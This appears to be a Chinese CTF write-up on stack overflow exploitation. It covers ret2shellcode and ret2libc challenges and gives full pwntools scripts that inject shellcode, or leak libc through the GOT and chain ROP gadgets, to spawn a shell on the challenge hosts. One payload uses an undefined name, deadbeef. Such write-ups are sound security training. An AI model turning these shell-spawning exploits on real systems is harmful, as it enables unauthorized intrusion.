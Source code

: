 ```yaml
---
stas: true
comment: True
---
```


# 栈溢出漏洞

## ret2shellcode

以[HNCTF 2022 Week1]ret2shellcode为例，先**checksec**一下

![ret2shellcode-checksec](./assets/ret2shellcode-checksec.png)

开了NX，丢入IDA分析

![ret2shellcode-main](./assets/ret2shellcode-main.png)

看到函数**mprotect**把内存变得可写，可执行，然后输入**s**，把**s**复制给**buff**。函数**read**存在栈溢出漏洞，偏移量为**0x100**。所以我们只要栈溢出传入**shellcode**使**buff**执行这个**shellcode**即可

exploit:

~~~python
from pwn import *

p = remote("node5.anna.nssctf.cn","28975")

shellcode = asm(shellcraft.sh())
buff_bss_addr = 0x4040A0

payload = shellcode.ljust(0x100,b"a") + p64(0) + p64(buff_bss_addr)

p.sendline(payload)
p.interactive()
~~~

运行得到flag：

    nssctf{W@rn1ng,Sh31lc0de_inj3ct3r!!!}

## ret2libc

以CISCN 2019 东北的Pwn2为例，先**checksec**一下

![ret2libc-checksec](./assets/ret2libc-checksec.png)

开了NX以及ALSR，再把附件丢入IDA分析

![ret2libc-1](./assets/ret2libc-1.png)

逻辑很简单

~~~
1.Encrypt
2.Decrypt
3.Exit
Input your choice!
~~~

先从3个选项里面选择，若选择1，则进入函数**Encrypt**；选择2，要求重新输入；选择3，退出程序。查看**Encrypt**函数

![ret2libc-encrypt](./assets/ret2libc-encrypt.png)

函数先**gets**一个变量**s**,再对**s**进行加密，输出加密后的**s**,最后返回**main**函数，我们看到**gets**时没有限定长度，所以存在**栈溢出漏洞**，可以看出溢出的偏移量应该是**0x50+0x8**。由于没有找到后门函数，也没有发现system和/bin/sh，所以得自己构造ROP链，通过**泄露got表**来得到libc的基址。

我们先通过**ROPgadget**获得**ret**和**pop rdi;ret**的地址

![ret2libc-ROPgadget](./assets/ret2libc-ROPgadget.png)

开始构建exploit1:

~~~python
from pwn import *

p = remote("node5.buuoj.cn","29642")

elf = ELF("./ciscn_2019_c_1")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
ret_addr = 0x4005b9
pop_rdi_addr = 0x400c83

payload = b'\x00' + b'a'*(0x50+0x7) + p64(pop_rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)

puts_addr = u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
print(hex(puts_addr))
~~~

运行后得到：

![ret2libc-libc](./assets/ret2libc-libc.png)

通过[libc database search](https://libc.blukat.me/)查询libc版本

![ret2libc-libcsearch](./assets/ret2libc-libcsearch.png)

构建exploit2:

~~~python
base_addr = puts_addr - 0x0809c0
system_addr = base_addr + 0x04f440
binsh_addr = base_addr + 0x1b3e9a

payload = b'\x00' + b'a'*(0x50+0x7) + p64(ret_addr) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr) + p64(deadbeef)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)
p.interactive()
~~~

运行得到**flag**

![ret2libc-flag.png](./assets/ret2libc-flag.png)

完整exploit:

~~~python
from pwn import *

p = remote("node5.buuoj.cn","29642")

elf = ELF("./ciscn_2019_c_1")

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
ret_addr = 0x4005b9
pop_rdi_addr = 0x400c83

payload = b'\x00' + b'a'*(0x50+0x7) + p64(pop_rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)

puts_addr = u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
print(hex(puts_addr))

base_addr = puts_addr - 0x0809c0
system_addr = base_addr + 0x04f440
binsh_addr = base_addr + 0x1b3e9a

payload = b'\x00' + b'a'*(0x50+0x7) + p64(ret_addr) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr) + p64(deadbeef)

p.sendlineafter("choice!\n",str(1))
p.sendlineafter("encrypted",payload)
p.interactive()
~~~